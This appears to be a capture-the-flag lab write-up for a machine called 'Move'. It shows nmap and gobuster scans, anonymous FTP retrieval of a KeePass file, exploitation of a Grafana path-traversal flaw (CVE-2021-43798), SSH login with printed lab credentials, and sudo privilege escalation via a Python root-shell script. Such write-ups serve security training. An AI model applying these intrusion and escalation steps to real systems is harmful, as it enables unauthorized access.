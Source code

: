# Move

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp   open  ftp     syn-ack ttl 64
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Move_1.png)

We see that anonymous FTP service is allowed and there's a directory called "maintenance" that we can access.
We found a file "database.kdbx". After downloading it, we see it's a file that can be accessed using the KeePass tool.

![alt text](Imagenes/Move_2.png).

Similarly, I scanned the SSH port, but didn't find anything important.

Lastly, I scanned port 3000 and we see it has a login web page, which we'll review later.
![alt text](Imagenes/Move_3.png)

## Examining the Web Page and Its Infrastructure

If we examine the web on port 80, there's nothing relevant; it's a default Apache page.

We'll perform a scan of the web page looking for hidden directories or files. For this, I'll use the Gobuster tool.

```ruby
gobuster dir -u http://172.17.0.2 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt
```
![alt text](Imagenes/Move_4.png)
![alt text](Imagenes/Move_5.png)


If we look at what the login contains, we notice the following:
![alt text](Imagenes/Move_6.png)

It's a Grafana identification panel, we see that the version is v8.3.0.

## Intrusion
Searching in the searchexploit tool, we find an exploit with the same version. If we also do a basic search in the browser, we'll find a repository with this exploit.

It's the exploit CVE-2021-43798

https://github.com/FAOG99/GrafanaDirectoryScanner

Following the steps of the application, we get the following result:

![alt text](Imagenes/Move_7.png)

We've found a traversal file that contains a possible password for the KeePass program. If we try it in the application... we access successfully.

![alt text](Imagenes/Move_8.png)

We've found a user:

```ruby
user: freddy
pwd: t9sH76gpQ82UFeZ3GXZS
```

Finally, we try these credentials in the SSH service... we access correctly.
![alt text](Imagenes/Move_9.png)

## Privilege Escalation
If we run the sudo -l command, we find the following:
![alt text](Imagenes/Move_10.png)

We see that we can execute that script as root user.
If we execute it, it simply shows us a "server under maintenance" message. Therefore, if we edit this file
and make a Python3 script that executes a terminal for us, we can access as root user. For this, I've made this basic script:

```python
import os
import subprocess

def local_shell():
    shell = "/bin/bash"  
    
    try:
       
        subprocess.call([shell, '-i'])
    except Exception as e:
        print(f"Error al iniciar la shell: {e}")

if __name__ == "__main__":
    local_shell()

```
Lastly, if we execute this script with sudo, we'll get a terminal with root user.

![alt text](Imagenes/Move_11.png)
